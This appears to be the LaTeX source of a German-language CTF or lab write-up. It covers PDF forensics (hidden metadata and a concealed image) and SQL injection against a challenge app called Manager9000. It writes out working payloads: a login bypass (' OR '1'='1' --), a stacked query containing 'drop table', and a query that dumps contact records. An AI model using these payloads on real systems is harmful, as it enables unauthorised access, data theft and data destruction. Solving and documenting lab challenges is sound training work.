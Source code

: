 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
$7.716.465.296$

\subsection{Crypto-Ref-ID}
Die Crypto-Ref-ID steht in den Eigenschaften des PDF Dokumentes.

$A13m7X07$

\subsection{Lizenz Berechtigung}
Die Zahlungsreferenz ist abseits des sichtbaren (für den PDF-Reader) PDFs gespeichert.

$RE151-774-T-31$


\subsection{Appendix 07}
Ich habe das PDF in LibreOffice-Draw geöffnet (PDF-Editor).
Hinter dem Bild ist ein zweites wesentlich kleineres Bild gespeichert, mit der Zeit.

$08:58:87$


\section{Manager9000}

\subsection{Schwachstelle finden}
Die Seite ist SQL Injection gefährdet. Mit dem Eingabedaten $' OR '1'='1' --$ in Nickname und Passwort kann fälschlicherweise eingeloggt werden.

\subsection{Wer schürft am meisten?}
Mittels $' OR '1'='1' );  drop table id$  kann die gesamte Liste der Miner ausgegeben werden, da bei Syntaxfehlern der ausgeführte SQL-Code ausgegeben wird, kann hier einfach die Eingabe angepasst werden. Nun muss nur noch der/die stärkste/er herausgesucht werden.

\subsection{Mein Wallet}

SELECT id, name, phone, country, city, street, number FROM contacts WHERE (name LIKE '\%
'OR '1'='1' ); SELECT id, name, phone, country, city, street, number FROM contacts ORDER BY name ;
('
\%' )
\end{document}
